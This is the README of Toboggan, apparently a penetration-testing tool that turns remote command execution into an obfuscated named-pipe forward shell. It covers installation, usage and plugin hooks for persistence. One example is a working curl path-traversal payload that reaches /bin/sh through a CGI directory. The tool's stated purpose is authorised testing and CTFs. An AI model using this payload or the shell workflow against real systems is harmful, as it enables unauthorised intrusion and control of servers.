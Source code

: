 # Toboggan

🛝 Slide into post-exploitation from RCE with ease. Toboggan wraps your remote command execution into a upgradable dumb shell, sliding directly into post-exploitation phase. It allows you to fastly launch a `mkfifo` forward-shell inside a targeted Linux environment.

<p align="center">
    <img width="350" src="/media/toboggan-coin-nobg.png" alt="Toboggan Logo">
</p>

## Installation

Installing Toboggan is simple. You can install it directly from the repository:

```shell
pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
```

### Using [`pipx`](https://pypa.github.io/pipx/)
Be careful, it installs Python applications in isolated virtual environments, which means they do not have access to system-wide packages by default (like `psycopg2`).
```shell
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

If you want-it to use system site packages, pass `--system-site-packages` when installing via `pipx`.

## Execution

Once installed, you can execute it using:
```shell
toboggan -m ~/phpexploit.py
```

When you are knowing what you are doing, you can also do:
```shell
toboggan -m ~/phpexploit.py --camouflage --fifo --os "unix" -wd /dev/shm/apache-tmp
```

It will start a FiFo named-pipe (a.k.a `mkfifo` shell, forward-shell) on `unix` (`--os`) remote system and obfuscating all commands using the [hide.py](./toboggan/actions/hide/unix.py) actions.

### Wrap a shell command

If you are really lazy, you can directly wrap a shell command:
```shell
toboggan --exec-wrapper 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

### Proxy

You can forward to your favorite proxifier such as your favorite [`Squid`](https://www.squid-cache.org/) server using the `--proxy` parameter:

```shell
toboggan -m ~/phpexploit.py --proxy http://squidrandom.<something>.io:3128
```

### BurpSuite

To route traffic through Burp Suite:
```shell
toboggan -m ~/phpexploit.py --proxy
```

You can also directly import a Burp saved request that contains the `||cmd||` placeholder:
```shell
toboggan -r brequest
```

## 🔍 What is an RCE Python Module?

A Remote Code Execution (RCE) module is a Python script that defines how commands are sent to and executed on a remote system. Toboggan uses this module to wrap and streamline post-exploitation command execution.

To be compatible with Toboggan, your module must define a function with the following exact signature:

```python
def execute(command: str, timeout: float) -> str:
    """
    Execute a command remotely and return the output.
    
    Args:
        command (str): The command to execute.
        timeout (float): Execution timeout.

    Returns:
        str: The command output.
    """
```

This function will be called internally by Toboggan to execute commands remotely. It uses [`modwrap`](https://pypi.org/project/modwrap/) under the hood.

### Considerations

Your `execute()` function must handle all quirks of the target system.

- If space characters need to be replaced (e.g., with `${IFS}`), handle that inside the function.
- If special encoding is required (e.g., base64, hex), apply it before sending.
- If the system echoes extra characters or wraps the output, sanitize it.
- If the remote interface is slow or unreliable, tune the timeout.

The goal is for Toboggan to call your `execute()` function with any arbitrary command and get the correct output, as if you typed it in a shell.

## 🏗️ Making Dumb Shells Smarter

### Named Pipes for Semi-Interactive Shells

Toboggan uses named pipes (FIFO - First In, First Out) for inter-process communication (IPC). Named pipes are particularly useful when working with RCE over limited channels like HTTP requests or restricted command execution interfaces. It uses a `mkfifo` command under the hood. Also known as forward-shell style.

This allows Toboggan to simulate pseudo-TTY behavior, even in restricted environments behind firewalls. To enable named pipe mode, use the `--fifo` flag:
```shell
toboggan -m ~/phpexploit.py --fifo
```

Toboggan will create a FIFO-based communication channel, allowing you to interact with the remote system in a more dynamic way (e.g., using `sudo -l`).

## 🛠️ Bring Your Own Actions (BYOA)

Actions in Toboggan are modular plugins that allow you to extend its functionality. Actions can automate common post-exploitation tasks, such as downloading files, executing scripts, or setting up persistent access. Custom actions should be placed in `~/.local/share/toboggan/actions` (Linux) or `%APPDATA%\toboggan\actions` (Windows).

## Disclaimer

Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments. Unauthorized use of this tool on systems you do not own or without proper authorization may be illegal. Please use "Toboggan" responsibly and in compliance with applicable laws and regulations.
